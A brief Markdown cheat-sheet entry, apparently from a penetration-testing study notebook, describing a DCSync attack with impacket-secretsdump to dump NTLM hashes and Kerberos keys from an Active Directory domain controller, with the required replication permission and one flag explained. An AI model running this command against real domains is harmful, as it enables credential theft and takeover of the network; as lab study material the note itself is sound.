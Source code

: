 ```yaml
---
tags:
  - linux
  - dcsync
---
```

```shell-session
$ impacket-secretsdump -outputfile inlanefreight_hashes -just-dc <DOMAIN>/<USER>@<DC-IP>
```
>The `<USER>` should have `DS-Replication-Get-Changes-All` permission assigned

# Useful Flags
- `-just-dc`: extracts NTLM hashes and Kerberos keys from the NTDS file